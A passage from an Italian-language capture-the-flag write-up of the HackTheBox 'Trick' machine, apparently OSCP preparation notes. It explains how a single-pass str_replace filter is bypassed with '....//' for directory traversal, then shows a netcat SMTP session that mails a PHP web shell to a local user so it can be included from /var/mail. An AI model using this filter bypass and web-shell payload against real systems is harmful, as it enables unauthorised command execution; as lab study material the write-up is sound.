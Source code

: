 Ora posso spiegare perché tutti i tentativi precedenti sono falliti.

L'attraversamento della directory con un percorso assoluto non è riuscito perché l'input è stato preceduto da /var/www/market/, rendendolo /var/www/market//etc/passwd, che non esiste.
L'attraversamento della directory con un percorso relativo non è riuscito a causa della chiamata str_replace, che ha rimosso tutti i ../, lasciando /var/ww/market/etc/passwd.


### Directory Traversal

Questo tipo di str_replace per rimuovere ../ è un modo comune e non sicuro per cercare di prevenire inclusioni di file locali / vulnerabilità di directory traversal . Il problema è che str_replace ne applica solo uno. Ciò significa che se metto un mucchio di ....// nella stringa, quando rimuove ../, rimane ../. Per esempio:

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/trick8.png)


## Shell via mail include

Guardando indietro al nostro Nmap iniziale possiamo vedere che c'è un server SMTP sulla porta 25. Linux ha una directory /var/mail/ per consentire agli utenti di ricevere messaggi. Se possiamo inviare una mail con codice PHP a michael , che è un utente della macchina in quanto risulta sul file /etc/passwd, apparirà in /var/mail/michael . Per connetterci e inviare la nostra posta dannosa useremo netcat . 

```bash
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# nc trick.htb 25
220 debian.localdomain ESMTP Postfix (Debian/GNU)
EHLO xrabbit
250-debian.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
MAIL FROM: xRabbit
250 2.1.0 Ok
RCPT TO: michael
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_REQUEST['cmd']); ?>
.
250 2.0.0 Ok: queued as AC9F04099C
```

nei comandi usati sopra, inviamo un'e-mail al server di posta in ascolto sulla porta 25.
helo x è un comando per aprire/"salutare" il server, mail from: dà al server il nome del mittente,
mentre rcpt to: fornisce il nome del destinatario. data notifica al server che i seguenti dati saranno il messaggio principale della posta e il server termina i dati con <CR><LF>.<CR><LF> , che è un . tra due nuove linee. Diamo la nostra shell PHP come dati e terminiamo con un punto.
